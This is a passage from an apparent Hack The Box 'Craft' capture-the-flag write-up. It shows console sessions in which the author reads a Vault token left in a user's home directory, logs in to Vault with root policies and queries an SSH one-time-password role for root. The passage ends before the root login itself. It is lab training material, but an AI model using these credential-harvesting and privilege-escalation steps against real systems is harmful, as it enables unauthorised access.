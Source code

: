 ```console
Last login: Fri Jan  3 23:45:10 2020 from 10.10.14.16
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)
gilfoyle@craft:~$ wc -c user.txt 
33 user.txt
```

## root

We start enumerating to see if we can find anything interesting in the home of gilfoyle, and we found a `.vault-token` file (vault is a tool for securely access/store secrets as tokens, passowrds, certificates, etc, to learn more about it go to [Vault project page](https://www.vaultproject.io/)), and try to login to vault with it which goes well.

```console
gilfoyle@craft:~$ cat .vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9gilfoyle@craft:~$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
gilfoyle@craft:~$ 
```

We go back to the repo of `craft-infra` inside the `vault` folder to see if we can find the secret stored, in it is a small script `secrets.sh` which has exactly what we need:
{{< image src="/images/htb/craft/4-gil.png" position="center" style="border-radius: 8px;" >}}
with this information we run vault to get the kv if the secret is indeed there:

```console
gilfoyle@craft:~$ vault kv get ssh/roles/root_otp
========== Data ==========
Key                  Value
---                  -----
allowed_users        n/a
cidr_list            0.0.0.0/0
default_user         root
exclude_cidr_list    n/a
key_type             otp
port                 22
```

We know it is a ssh secret for root (that means, we can use it to establish a connection against root over ssh) with an otp key ([One-Time Password](https://en.wikipedia.org/wiki/One-time_password))
We check what options vault provides to use it:
